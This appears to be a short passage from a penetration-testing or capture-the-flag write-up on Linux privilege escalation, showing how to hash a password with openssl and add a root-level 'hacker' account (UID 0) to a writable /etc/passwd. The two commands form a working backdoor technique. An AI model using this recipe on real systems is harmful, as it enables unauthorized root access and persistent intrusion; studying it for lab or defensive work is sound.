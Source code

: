 

# Escalation
We can use OpenSSL to create a new hashed password for us to then paste into the `/etc/passwd` file to create a new user that hopefully has root privileges. The procedure is the following
```sh
openssl passwd -1 -salt 14 password1234
```
This will use the option passwd of openssl to create a md5 hash (`-1`) of the entered password salted with the value provided (`-salt 14`)

Finally adding it into `/etc/passwd`
```sh
hacker:$1$14$HASHGOESHERE:0:0:root:/root:/bin/bash
```
